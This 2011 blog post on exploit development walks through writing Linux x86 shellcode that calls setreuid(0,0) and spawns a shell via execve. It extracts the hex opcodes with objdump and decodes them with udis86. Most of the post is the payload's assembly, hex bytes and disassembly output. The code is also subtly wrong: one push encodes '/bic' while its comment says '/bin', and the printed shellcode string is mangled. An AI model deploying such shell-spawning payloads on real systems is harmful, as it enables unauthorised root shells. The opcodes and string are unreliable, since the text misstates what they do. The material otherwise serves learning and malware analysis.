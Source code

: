 Title: Disassembly
Date: 2011-12-20 17:58
Author: isis
Category: Technology
Tags: assembly languages, exploit development, fancy punks, hex, linux, shellcode

Often when doing exploit development, it's [necessary to extract hex
opcodes][] from an assembly or C program to generate shellcode.
Normally, to do this, one uses **objdump** as in the following example:

`isis@wintermute:~$ cat shellcode.asm`

section .text

global \_start

\_start:

;; setreuid (0,0)

xor eax, eax ;clear the eax registry

mov al, 0x46 ;set the syscall \# to decimal 70 or hex 46, one byte

xor ebx, ebx

xor ecx, ecx

int 0x80 ;system interrupt to call kernel to execute syscall

;; spawn shellcode with execve

xor eax, eax

push eax ;push a NULL value on the stack

push 0x68732f2f ;push '//sh' onto the stack

push 0x6369622f ;push '/bin' onto the stack

mov ebx, esp ;esp now points to '/bin/sh', so write to ebx

push eax ;push another NULL to terminate char \*\* argv on stack

push ebx ;push pointer to '/bin/sh' onto stack

mov ecx, esp ;esp now holds the address of argv, so write to ecx

xor edx, edx

mov al, 0xb ;set the syscall \# to decimal 11 or hex b, one byte

int 0x80 ;sytem interrupt to call kernel to execute syscall

isis@wintermute:\~\$ nasm -f elf shellcode.asm

isis@wintermute:\~\$ ld -melf\_i386 -o shellcode shellcode.o

isis@wintermute:\~\$ objdump -d ./shellcode

./shellcode: file format elf32-i386

Disassembly of section .text:

08048060 \<\_start\>:

8048060: 31 c0 xor %eax,%eax

8048062: b0 46 mov \$0x46,%al

8048064: 31 db xor %ebx,%ebx

8048066: 31 c9 xor %ecx,%ecx

8048068: cd 80 int \$0x80

804806a: 31 c0 xor %eax,%eax

804806c: 50 push %eax

804806d: 68 2f 2f 73 68 push \$0x68732f2f

8048072: 68 2f 62 69 63 push \$0x6369622f

8048077: 89 e3 mov %esp,%ebx

8048079: 50 push %eax

804807a: 53 push %ebx

804807b: 89 e1 mov %esp,%ecx

804807d: 31 d2 xor %edx,%edx

804807f: b0 0b mov \$0xb,%al

8048081: cd 80 int \$0x80

So, from this example, the shellcode would be:

`\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x31\xc0\x50\x68\x2f\2f\x73\`

x68\\x68\\x2f\\x62\\x69\\x63\\x89\\xe3\\x50\\x53\\x89\\xe1\\x31\\xd2\\xb0\\x0b\\xcd\\x80

But! What if you have some shellcode, say from a nasty PDF that someone
sent you (though a malPDF's shellcode would be in JavaScript, and so it
would look like "%u68%u73%u2f%u2f"), and you don't want to have to sit
there with a hex-to-ascii chart looking everything up by hand just to
find out what this shellcode is doing? As it turns out, there's a handy
little thing called [udis86][] to do all that boring work for you. You
have to download their tarball, then do:

`$ ./configure && make && make install`

To run udis86 at the commandline, do:

`$ udcli`

Words can't describe how much I'm crushing on this program. Check this
out:

`isis@wintermute:~/$ udcli -x`

31 c0 b0 46 31 db 31 c9 cd 80 31 c0 50 68 2f 2f 73 68 68 2f 62 69 63 89
e3 50 53 89 e1 31 d2 b0 0b cd 80

0000000000000000 31c0 xor eax, eax

0000000000000002 b046 mov al, 0x46

0000000000000004 31db xor ebx, ebx

0000000000000006 31c9 xor ecx, ecx

0000000000000008 cd80 int 0x80

000000000000000a 31c0 xor eax, eax

000000000000000c 50 push eax

000000000000000d 682f2f7368 push dword 0x68732f2f

0000000000000012 682f626963 push dword 0x6369622f

0000000000000017 89e3 mov ebx, esp

0000000000000019 50 push eax

000000000000001a 53 push ebx

000000000000001b 89e1 mov ecx, esp

000000000000001d 31d2 xor edx, edx

000000000000001f b00b mov al, 0xb

0000000000000021 cd80 int 0x80

  [necessary to extract hex opcodes]: http://www.patternsinthevoid.net/blog/2011/09/learning-assembly-through-writing-shellcode/
    "Learning Assembly Through Writing Shellcode"
  [udis86]: http://udis86.sourceforge.net/
